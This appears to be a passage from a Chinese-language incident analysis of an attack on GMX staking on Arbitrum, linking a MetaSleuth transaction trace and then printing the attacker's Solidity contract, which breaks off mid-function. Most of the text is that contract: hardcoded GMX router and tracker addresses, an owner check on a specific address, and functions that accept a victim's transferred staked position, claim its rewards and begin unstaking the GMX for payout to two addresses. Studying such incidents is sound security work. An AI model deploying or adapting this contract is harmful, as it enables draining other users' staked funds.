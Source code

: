 可以看详细链路：

[arbitrum-0x0b8d095c9ee0f27362240ed3f315afa12d6f88a6a0c15b99231bc14d4dd1fb96 | MetaSleuth](https://metasleuth.io/result/arbitrum/0x0b8d095c9ee0f27362240ed3f315afa12d6f88a6a0c15b99231bc14d4dd1fb96)

#### 攻击者合约

```js
// File: contracts/gmxUnstake.sol

pragma solidity ^0.8.0;

contract GmxUnstake {
    address rewardRouter = 0xA906F338CB21815cBc4Bc87ace9e68c87eF8d8F1;
    address stakedGmxTracker = 0x908C4D94D34924765f1eDc22A1DD098397c59dD4;
    address gmxToken = 0xfc5A1A6EB076a2C7aD06eD22C90d7E710E35ad0a;
    address feeAndStakedGlp = 0x1aDDD80E6039594eE970E5872D247bf0414C8903;
    address rewardRouterV2 = 0xB95DB5B167D75e6d04227CfFFA61069348d271F5;

    receive() external payable {}

    fallback() external payable {}

    modifier onlyOwner() {
        require(
            tx.origin == 0x0000db5c8B030ae20308ac975898E09741e70000,
            "Caller is not an owner"
        );
        _;
    }

    function acceptTransfer(address victim) private {
        (bool success, ) = (rewardRouter).call(
            abi.encodeWithSignature("acceptTransfer(address)", victim)
        );
        require(success, "Can't accept transfer");
    }

    function handleRewards() private {
        (bool success, ) = (rewardRouter).call(
            abi.encodeWithSignature(
                "handleRewards(bool,bool,bool,bool,bool,bool,bool)",
                false,
                false,
                true,
                false,
                false,
                true,
                true
            )
        );
        require(success, "Can't handle rewards");
    }

    function unstakeGmx(
        uint16 percentageForFirstAddressInBasisPoints,
        address firstAddress,
        address secondAddress
    ) private {
        (bool callSuccess, bytes memory data) = (stakedGmxTracker).call(
            abi.encodeWithSignature(
                "depositBalances(address,address)",
                address(this),
                gmxToken
            )
```